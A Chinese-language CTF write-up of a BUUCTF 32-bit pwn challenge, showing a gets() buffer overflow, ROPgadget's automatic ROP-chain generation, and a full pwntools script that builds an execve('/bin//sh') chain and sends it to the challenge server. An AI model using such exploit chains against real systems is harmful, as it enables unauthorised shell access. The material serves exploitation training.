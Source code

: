 ### ROPgadget ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67c184d6d0e0a243d4082639.png)

先 checksec

![](https://pic1.imgdb.cn/item/67c184e6d0e0a243d4082640.png)

找 main 函数，直接调用了溢出函数

![](https://pic1.imgdb.cn/item/67c18532d0e0a243d4082677.png)

发现是 Gets 溢出

![](https://pic1.imgdb.cn/item/67c18568d0e0a243d4082699.png)

距离 r 差 16 字节

![](https://pic1.imgdb.cn/item/67c1857dd0e0a243d40826a1.png)

没有可利用字符串以及泄露 libc 的函数

![](https://pic1.imgdb.cn/item/67c18621d0e0a243d40826f7.png)

利用了工具 ROPgadget，它有一个功能，可以直接利用程序中的片段拼凑 rop 链

```
ROPgadget --binary '/home/suc2es2/Pwn_shell/rop' --ropchain
```

![](https://pic1.imgdb.cn/item/67c18646d0e0a243d4082702.png)

构造 payload

```python
from pwn import *
from struct import pack

r=remote('node5.buuoj.cn',27427)

def payload():
    p = b'a' * 16
    p += pack('<I', 0x0806ecda) # pop edx ; ret
    p += pack('<I', 0x080ea060) # @ .data
    p += pack('<I', 0x080b8016) # pop eax ; ret
    p += b'/bin'
    p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806ecda) # pop edx ; ret
    p += pack('<I', 0x080ea064) # @ .data + 4
    p += pack('<I', 0x080b8016) # pop eax ; ret
    p += b'//sh'
    p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806ecda) # pop edx ; ret
    p += pack('<I', 0x080ea068) # @ .data + 8
    p += pack('<I', 0x080492d3) # xor eax, eax ; ret
    p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080481c9) # pop ebx ; ret
    p += pack('<I', 0x080ea060) # @ .data
    p += pack('<I', 0x080de769) # pop ecx ; ret
    p += pack('<I', 0x080ea068) # @ .data + 8
    p += pack('<I', 0x0806ecda) # pop edx ; ret
    p += pack('<I', 0x080ea068) # @ .data + 8
    p += pack('<I', 0x080492d3) # xor eax, eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0807a66f) # inc eax ; ret
    p += pack('<I', 0x0806c943) # int 0x80
    return p

shell = payload()

r.sendline(shell)
r.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67c18f27d0e0a243d4082ced.png)
